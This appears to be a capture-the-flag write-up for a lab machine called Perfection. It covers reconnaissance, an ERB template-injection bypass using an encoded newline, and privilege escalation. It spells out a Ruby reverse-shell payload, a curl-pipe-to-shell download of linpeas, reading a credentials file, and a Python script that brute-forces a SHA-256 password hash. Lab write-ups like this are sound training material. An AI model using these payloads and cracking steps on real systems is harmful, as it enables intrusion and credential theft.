





<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>Perfection</b></p>
    <p style="font-size:20px;">Linux • <font color="#8ac73e">Easy</font></p>
  </div>
</div>

## Nmap - Directory Busting

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.253
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 10:00 EDT
Nmap scan report for 10.10.11.253
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.88 seconds
```

Looking around the website we find `/about` and `/weighted-grade-calc`.

We will also try some directory fuzzing.
```bash
$ gobuster dir -u http://10.10.11.253 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.253
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 274]
/]                    (Status: 400) [Size: 274]
/about                (Status: 200) [Size: 3827]
/plain]               (Status: 400) [Size: 279]
/quote]               (Status: 400) [Size: 279]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

On the bottom of the website we also find `Powered by WEBrick 1.7.0`.\
Using that information, we find `CVE-2009-4492`:
> WEBrick 1.3.1 in Ruby 1.8.6 through patchlevel 383, 1.8.7 through patchlevel 248, 1.8.8dev, 1.9.1 through patchlevel 376, and 1.9.2dev writes data to a log file without sanitizing non-printable characters, which might allow remote attackers to modify a window's title, or possibly execute arbitrary commands or overwrite files, via an HTTP request containing an escape sequence for a terminal emulator. 

## /weighted-grade-calc

We see that printable characters (like `'` or `;`) get detected and the request is blocked, as well as if eny of the table lines isn't sent. We also need to add our tests after valid values.

We see `&&` isn't blocked, but it also doesn't look like we can add any commands to it. Similarly, though `\n` gets blocked, its url encoding `%0a` doesn't: `category1=a%0a&grade1=3...`

Trying to inject a command doesn't seem to work, simply displaying the command.
`%0a'whoami'`
`%0a$(whoami)`
`%0a+$(whoami)`
`%0a+whoami`

### SSTI (Server Side Template Injection)

Looking up online, I found `SSTI (Server Side Template Injection)`, and [this HAckTricks guide](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection) \
`<%'${{/#{@}}%>{{` or `<%25'${{/%23{%40}}%25>{{` in url encoding results in a server error.\


We will be trying some different inputs (after we url encode them):
```
${7*7}
${{7*7}}
{{7*7}}
#{7*7}
${7*'7'}
<%= 7*7 %>
{ 7 * 7 }
{{7*'7'}}
```

\
Here we see that `<%= 7*7 %>` returned `49`!

We know the website uses `WEBrick`, and google says it is a Ruby library, which checks out with our results according to the HackTricks guide.

`<%= Dir.entries('/') %>`:


```<%= `ls /` %>```:


Using that info, we can try and get access to the server.

We open a netcat listener:
```bash
$ nc -lvp 4444
```

We will use `bash -i >& /dev/tcp/10.10.14.92/4444 0>&1`, transform it for ruby `system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.92/4444 0>&1'")` and pass it to the request (url encoded).\


And now we have shell access as a user!

## Looking for flags

We will run `script -qc /bin/bash /dev/null` to make the shell interactive, as well as `export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '`.

We can find the user flag in `/home/susan/user.txt`

We will try to use `linpeas`:\
On Attacker:
```bash
$ sudo python3 -m http.server 80
```

On Victim:
```bash
susan@perfection:~/ruby_app$ curl 10.10.14.92/linpeas.sh | sh
```

We found that our user is in the `sudo group`.\
We also find that there is a file `/home/susan/Migration/pupilpath_credentials.db`:
```bash
susan@perfection:~/ruby_app$ cat /home/susan/Migration/pupilpath_credentials.db
<at /home/susan/Migration/pupilpath_credentials.db     
��^�ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a�\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Our user's name must be `Susan Miller`, and the password encrypted in `abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f`, which looks like SHA-256.

We can also take a look at any emails:
```bash
susan@perfection:~/ruby_app$ cat /var/mail/susan
cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

That is perfect! Now we can make a script to find the password.\
We create `findPassword.py`:
```py
import hashlib
import sys

def encrypt_password_sha256(password):
    password_bytes = password.encode('utf-8')
    
    sha256_hash = hashlib.sha256()
    sha256_hash.update(password_bytes)
    hashed_password = sha256_hash.hexdigest()
    
    return hashed_password

if __name__ == "__main__":
    if (len(sys.argv) < 2):
        print("Please provide encrypted text.")
        exit(0)
    
    encrypted = sys.argv[1]

    for i in range(1,1000000001):
        password = "susan_nasus_"+str(i)
        hashed_password = encrypt_password_sha256(password)
        if (hashed_password == encrypted):
            print("Password found: "+password)
            exit(0)

    print("No password found.")
```

And after we run it we have the password, and can access root's directory.
